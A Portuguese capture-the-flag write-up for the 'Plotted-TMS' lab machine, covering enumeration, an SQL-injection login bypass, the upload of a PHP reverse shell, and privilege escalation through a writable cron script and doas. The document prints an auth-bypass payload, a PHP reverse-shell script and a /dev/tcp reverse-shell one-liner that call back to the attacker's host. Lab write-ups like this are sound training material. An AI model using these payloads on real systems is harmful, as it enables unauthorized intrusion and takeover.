









# _**Plotted-TMS**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```


Parece que temos 2 websites, um na porta 80 e outro na porta 445  
Vamos investigar  
Primeiro, scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/Web-Servers/Apache.txt
> gobuster dir --url [ip_address]:445 -w ../seclists/Discovery/Web-Content/Web-Servers/Apache.txt
> ```
  

  

Parece não haver nada  
Vamos buscar informações de outra maneira  

## _**Ganhando acesso**_
Seguindo a dica dada, '_Enumeration is key!_'  
Com outra lista para _brute_force_, vamos novamente realizar um scan com **gobuster**
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> gobuster dir --url [ip_address]:445 -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```


Aqui temos 3 diretórios que podem ser úteis  
Investigando cada um deles, vemos que são apenas frases para continuar nossa enumeração :)  
Já o resultado na porta **445** parece ser promissor, pois encontramos uma página e dentro, uma página de login  



Vamos tentar um _SQL injection_ com: ```' || '1'='1';-- -```  
E temos acesso administrador  



Ao investigarmos o site, que parece ser para multas e trânsito, é perceptível que podemos alterar a imagem de fundo em _../management_  
Vamos criar um arquivo _shell.php_ para tentarmos obtermos o inverso  
> ```bash
> <?php
> // Configurações do reverso
> $ip = '[ip_address]';  // <- Substitua pelo seu IP
> $port = [port];           // <- Substitua pela porta que está ouvindo
> 
> // Tenta abrir conexão de volta
> $sock = fsockopen($ip, $port);
> $proc = proc_open('/bin/sh -i', [
>     0 => $sock,
>     1 => $sock,
>     2 => $sock
> ], $pipes);
> ?>
> ```
Clicando para fazer _upload_, temos com sucesso!  
Basta acessar ```[ip_address]:445/management``` para obter seu _shell reverso_  



## _**Escalando privilégios**_
Para podermos escalar privilégios, vamos buscar LinPEAS com ```curl```  
Em seguida, vamos executar  
Após algum tempo, temos um retorno interessante  



Um script, _/var/www/scripts/backup.sh_, que é executado a cada minuto pelo usuário **plot_admin**  
Verificando suas permissões, vemos que é possível alterá-lo através do usuário atual  
Vamos fazer isso para abrir uma shell no usuário **plot_admin**  

> ```bash
> rm /var/www/scripts/backup.sh
> echo "/bin/sh -i >& /dev/tcp/[ip_address]/[port] 0>&1" > /var/www/scripts/backup.sh
> ```
Aguarde um tempo com ```netcat``` ligado e temos shell como **plot_admin**  


Vamos escalar privilégios novamente  
Ao procurar por binários interessantes, encontrei "_doas_"  
A ferramenta doas é a implementação do OpenBSD da conhecida ferramenta sudo  
Procurando em GFTOBins, temos o seguinte  



Vamos executar:
> ```bash
> doas openssl enc -in [root_file_flag]
> ```

Por fim, basta ir atrás da flag _user.txt_
